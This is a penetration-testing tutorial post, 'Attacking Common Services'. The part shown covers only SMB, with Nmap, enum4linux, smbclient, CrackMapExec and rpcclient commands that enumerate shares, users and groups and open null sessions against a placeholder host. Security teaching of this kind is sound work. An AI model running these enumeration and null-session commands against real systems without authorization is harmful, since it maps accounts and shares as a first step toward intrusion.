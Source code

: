 ```yaml
---
layout: post
title: Attacking Common Services
date: 2025-04-10 16:18 +0300
categories: [Network Security, Ports & Protocols]
tags: [exploitation, protocols, mysql, ldap, password spraying, smb]
---
```


## Introduction

This document provides a comprehensive guide for assessing and exploiting common network services during penetration testing. For each service, we'll cover enumeration techniques, exploitation methods, and practical commands that can be used in your assessments.

## SMB/CIFS (Ports 139/445)

### SMB Enumeration Techniques

```bash
# Basic SMB enumeration with Nmap
nmap -p 139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols target.com

# Using enum4linux for comprehensive enumeration
enum4linux -a target.com

# List SMB shares using smbclient
smbclient -L //target.com -N

# Check for null sessions
smbclient //target.com/IPC$ -N

# Enumerate with CrackMapExec
crackmapexec smb target.com --shares
crackmapexec smb target.com --users
crackmapexec smb target.com --groups
```

### SMB Exploitation

#### Null Session Attacks

```bash
# Access with null session
smbclient //target.com/share -N

# Extract user information with rpcclient null session
rpcclient -U "" -N target.com
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> queryuser 0x1f4
```

